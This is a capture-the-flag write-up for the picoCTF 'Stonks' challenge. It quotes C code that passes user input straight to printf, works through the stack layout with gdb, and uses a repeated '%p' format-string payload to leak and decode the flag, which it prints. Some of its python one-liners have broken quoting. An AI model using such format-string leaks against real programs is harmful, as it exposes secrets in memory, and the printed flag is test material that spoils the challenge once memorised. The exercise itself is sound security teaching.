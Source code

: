 # Stonks
Category: Binary exploitation, 20 points

## Description

> I decided to try something noone else has before. I made a bot to
automatically trade stonks for me using AI and machine learning. I wouldn't
believe you if you told me it's unsecure! vuln.c nc mercury.picoctf.net 16439

## Solution

After checking the connecting to the server, and looking into `vuln.c` we
notice that the `buy_stonks` function which accepts user's input, is using a
user provided string as a format string for a call of `printf`, specifically
this section of the code:

```
    char *user_buf = malloc(300 + 1);
	printf("What is your API token?\n");
	scanf("%300s", user_buf);
	printf("Buying stonks with token:\n");
	printf(user_buf);
```

This is a [Uncontrolled format string](https://en.wikipedia.org/wiki/Uncontrolled_format_string) vulnerability.


In addition to that the flag is read in this same `buy_stonks` function from a
file:

```
    char api_buf[FLAG_BUFFER];
    printf("api_buf address: %p\n", api_buf);
	FILE *f = fopen("api","r");
	if (!f) {
		printf("Flag file not found. Contact an admin.\n");
		exit(1);
	}
	fgets(api_buf, FLAG_BUFFER, f);
```

So the idea is to provide a format string that can show us the contents of
`api_buf`.

After a few experiments with the local version of the program, adding `%p`, we
know then what kind of string to supply that would allow us to check the
contents, but it would also need to be decoded into chars.

To do this I used gdb to debug the locally compiled program with debug
symbols, created a dummy flag file, and provided a bunch of `%p.` as the
format specifier to `printf` stored in `user_buf`.

Checking with gdb:

```
What would you like to do?
1) Buy some stonks!
2) View my portfolio
1

Breakpoint 1, buy_stonks (p=0x5555555592a0) at vuln.c:62
62      int buy_stonks(Portfolio *p) {
(gdb) n
91              printf("What is your API token?\n");
(gdb) x /s api_buf
0x7fffffffd4c0: "picoCTF{ahhh_32hfadf23}\n"
(gdb) x /xg api_buf
0x7fffffffd4c0: 0x7b4654436f636970
(gdb) x /xw api_buf
0x7fffffffd4c0: 0x6f636970
(gdb) x /3xb api_buf
0x7fffffffd4c0: 0x70    0x69    0x63
(gdb) x /3x api_buf
0x7fffffffd4c0: 0x70    0x69    0x63
(gdb) x /3xw api_buf
0x7fffffffd4c0: 0x6f636970      0x7b465443      0x68686861
(gdb) x /20xg $sp
0x7fffffffd490: 0x00007fffffffd4a0      0x00005555555592a0
0x7fffffffd4a0: 0x0000000100000000      0x00005555555596d0
0x7fffffffd4b0: 0x000055555555a980      0x000055555555a9a0
0x7fffffffd4c0: 0x7b4654436f636970      0x6832335f68686861
0x7fffffffd4d0: 0x0a7d333266646166      0x00007ffff7f73300
0x7fffffffd4e0: 0x00007ffff7ffd000      0x00007ffff7dfd119
0x7fffffffd4f0: 0x000000000000000a      0x00007ffff7dfd543
0x7fffffffd500: 0x0000000000000014      0x00007ffff7f725a0
0x7fffffffd510: 0x0000555555556161      0x00007ffff7df26fa
0x7fffffffd520: 0x0000000000000000      0x00007ffff7dbcced
```

Doing the math between where the flag is (0x7fffffffd4c0) and where the stack
pointer is (0x7fffffffd490) we can see that the difference is 0x30 or 48,
therefore we must insert something that prints at minimum the previous 48 bytes +
the length of the actual flag.
48 bytes in 8 byte words is 6 words. Since we don't know the length of the
flag, we must take the worst case which is that of the length of the flag
buffer, which is given in the code by the macro `FLAG_BUFFER` which is 128
bytes or 16 64-bit words, therefore we need to print to be safe to catch all
of the flag 16 + 8 words or 24, which can be done by injecting 24 '%p' in the
input.o

This can be done using python: 

```
python -c "print(f"%p." * 24 + "%p")
```

We can see that the actual contents shown by printf are:

```
0x1.0x1.0x7ffff7e79257.0x7ffff7f74570.0x7fffffff.0x7fffffffd4a0.0x5555555592a0.0x100000000.0x5555555596d0.0x55555555a960.0x55555555a980.0x7b4654436f636970.0x6832335f68686861.0xa7d333266646166.0x7ffff7f73300.0x7ffff7ffd000.0x7ffff7dfd119.0xa.0x7ffff7dfd543.0x14.0x7ffff7f725a0.0x555555556151.0x7ffff7df26fa.(nil).0x7ffff7dbcced97
```

We can verify from gdb that the contents of the flag start to appear 12 words
of 64-bit in, therefore we must amend our estimates to use 12 + 16 and use 38
64-bit words, but this assumes that the server is running a 64bit OS,
therefore it's better to take into account the number of bytes.

38 * 8 = 304 bytes that we need to read and starting from byte 96, we should
start to see the contents of the flag all things staying equal.


Doing this and examining the output we realize that the flag starts to appear at word 15
(32bit words), and considering the FLAG_BUFFER is 128 bytes that gives us 32
(32-bit) more words to read from that position onwards. That makes it 47 words
to read.

```
python -c "print(f"%p". * 47 + "%p")
```

Then we capture this and start decoding from the 15 word keeping in mind that
this is encoded using little endian. We do this up to the point where we find
a `\0` terminating the C-string.

```
0x8da1430.0x804b000.0x80489c3.0xf7efed80.0xffffffff.0x1.0x8d9f160.0xf7f0c110.0xf7efedc7.(nil).0x8da0180.0x3.0x8da1410.0x8da1430.0x6f636970.0x7b465443.0x306c5f49.0x345f7435.0x6d5f6c6c.0x306d5f79.0x5f79336e.0x62633763.0x65616336.0xfff7007d.0xf7f39af8.0xf7f0c440.0xa44c5d00.0x1.(nil).0xf7d9bce9.0xf7f0d0c0.0xf7efe5c0.0xf7efe000.0xfff70718.0xf7d8c68d.0xf7efe5c0.0x8048eca.0xfff70724.(nil).0xf7f20f09.0x804b000.0xf7efe000.0xf7efee20.0xfff70758.0xf7f26d50.0xf7eff890.0xa44c5d00.0xf7efe000.0x804b000.0xfff70758.0x8048c86.0x8d9f160.0xfff70744.0xfff70758.0x8048be9.0xf7efe3fc.(nil).0xfff7080c.0xfff70804.0x1.0x1.0x8d9f160.0xa44c5d00.0xfff70770.(nil).(nil).0xf7d41fa1.0xf7efe000.0xf7efe000.(nil).0xf7d41fa1.0x1.0xfff70804.0xfff7080c
```

This was done in the `main.py`

This CTF lead me through a rabbithole to refresh concepts I had seen back in
my studies of calling conventions, that explains how are parameters passed to
a procedure in assembly, how is the frame pointer, instruction pointer backed
up and restored, some of the common x86 register names, etc... as well as
keeping in mind the endianness of memory.

In addition something that was key to convincing me of what I was doing was
using gdb with the examine `x` command and experimenting with the options
there. 

Having said that I spent most of the time understating why gdb wouldn't show
the complete flag (or any complete word memory contents for that matter),
whenever I used `%x` format specifier like many write ups mentioned.

The explanation for that was done in the addendum
[gdb_debugging](./gdb_debugging.md) and is another hard lesson.


## Flag

picoCTF{I_l05t_4ll_my_m0n3y_c7cb6cae}
